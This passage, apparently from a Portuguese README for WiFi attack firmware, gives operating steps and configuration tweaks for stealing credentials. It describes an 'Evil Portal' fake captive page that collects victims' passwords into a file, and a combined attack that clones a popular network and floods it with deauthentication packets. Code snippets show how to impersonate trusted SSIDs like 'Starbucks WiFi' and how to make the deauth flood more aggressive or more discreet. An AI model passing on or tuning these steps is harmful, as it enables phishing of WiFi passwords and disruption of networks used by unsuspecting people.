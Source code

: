 ### Ataque 3: Evil Portal Social Engineering
```
1. Copiar template para SD como portal.html
2. Modo: Evil Portal
3. Aguardar vítimas conectarem
4. Verificar /credentials.txt
5. Testar credenciais capturadas
```

### Ataque 4: Combo (Mais Efetivo!)
```
1. Modo: Clone & Deauth
2. Clonar rede popular
3. Deauth força desconexões
4. Voltar ao menu
5. Modo: Evil Portal
6. Vítimas se conectam ao portal
7. Capturam "senha da rede"
8. Credentials salvos!
```

---

## ⚙️ Configurações Avançadas

### Alterar SSID do Evil Portal
```cpp
// Linha 41
#define PORTAL_SSID "Free WiFi"

// Alterar para:
#define PORTAL_SSID "Starbucks WiFi"
#define PORTAL_SSID "Airport Free"
#define PORTAL_SSID "Hotel Guest"
```

### Alterar Intervalo de Deauth
```cpp
// Linha 39
#define DEAUTH_INTERVAL_MS 5000  // 5 segundos

// Mais agressivo:
#define DEAUTH_INTERVAL_MS 3000  // 3 segundos

// Mais discreto:
#define DEAUTH_INTERVAL_MS 10000  // 10 segundos
```

### Aumentar Pacotes Deauth por Ciclo
```cpp
// Linha 576 - função performDeauthAttack()
for (int i = 0; i < 5; i++) {  // 5 pacotes

// Mais agressivo:
for (int i = 0; i < 10; i++) {  // 10 pacotes
```

---